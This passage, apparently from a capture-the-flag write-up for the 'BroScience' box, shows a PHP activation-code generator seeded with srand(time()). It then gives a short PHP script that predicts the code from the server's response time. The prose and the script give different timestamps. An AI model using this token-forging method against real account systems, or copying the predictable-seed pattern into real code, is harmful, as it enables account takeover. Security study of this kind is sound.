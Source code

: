 <h2>Activation Codes</h2>

So we have user bill as our target. I'll look around to see what else I can find. In the file utils.php there is some code to generate the activation code for when you make an account. The code below generates some string based on the time the request is received. 

```php
function generate_activation_code() {
    $chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890";
    srand(time());
    $activation_code = "";
    for ($i = 0; $i < 32; $i++) {
        $activation_code = $activation_code . $chars[rand(0, strlen($chars) - 1)];
    }
    return $activation_code;
}
```

The time function generates the number of seconds since Unix Epoch, a value I can calculate. Next the packet I send with the registration request will send back a time in the response that I can use to calculate this number. Lastly I can set up a small php script with the exact code above to generate the code for probably some activation.php. 

![date packet](/img/broscience/BroScience_date_packet.png)

From that time I can generate that the time() function would have returned 1677457391. I'll add that to my php code and generate the activation. 

```php
<?php
$chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890";
$time = "1677458075";
srand($time);
$activation_code = "";
for ($i = 0; $i < 32; $i++) {
    $activation_code = $activation_code . $chars[rand(0, strlen($chars) - 1)];
}
print($activation_code);
?>
```
